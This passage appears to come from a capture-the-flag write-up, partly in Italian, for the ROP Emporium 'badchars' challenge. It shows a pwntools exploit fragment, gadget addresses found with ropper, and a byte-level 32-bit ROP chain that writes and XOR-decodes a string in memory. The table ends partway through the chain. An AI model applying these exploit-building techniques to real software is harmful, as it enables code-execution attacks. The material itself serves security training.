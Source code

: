 ```python

payload += pop_rdi
payload += data_address
payload += print_file_address

io.sendline(payload)
print(io.recvall())
```

## 32 bit

- print_file() address is `0x080483d0`
- .data address is : `0x0804a018`

-str1: `646E63652C767A76`
-str2: `02`

Badchars are: `'x'=\x78, 'g'=\x67, 'a'=\x61, '.'=\x2e`, so we use **ropper** to find all gadgets we need:
```bash
ropper --file "badchars" -b 7867612e
```
- `0x080485bb: pop ebp; ret;` -> per ciclare sullo xor
- `0x080485ba: pop edi; pop ebp; ret;`
- `0x0804854f: mov dword ptr [edi], esi; ret;`
- `0x08048547: xor byte ptr [ebp], bl; ret;` -> `bl` è il primo byte del registro ebx (cioè dove metteremo str2)

considerando la little endianess :

| ROP                                |                    |
| ---------------------------------- | ------------------ |
| thrash padding                     | "\x55" * 44        |
| `pop ebx; pop esi; pop edi; pop ebp; ret;`| "\xb8\x85\x04\x08" |
| str2| "\x02\x02\x02\x02"	|
| str1 (first 4 bytes)           | "\x64\x6E\x63\x65" |
| `.data`                            | "\x18\xa0\x04\x08" |
| `.data`	| "\x18\xa0\x04\x08"	|
| `mov dword ptr [edi], esi; ret;` | "\x4f\x85\x04\x08" |
| `pop ebx; pop esi; pop edi; pop ebp; ret;`| "\xb8\x85\x04\x08" |
|	str2| "\x02\x02\x02\x02"		|
| str1 (last 4 bytes)| "\x2C\x76\x7A\x76" |
| `.data + 4byte`| "\x1c\xa0\x04\x08" |
|	 `.data`	| "\x18\xa0\x04\x08"	|
| `mov dword ptr [edi], esi; ret;` | "\x4f\x85\x04\x08" |
| `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 1` |"\x19\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 2` |"\x1a\xa0\x04\x08"|

[Split]: https://ropemporium.com/challenge/write4.html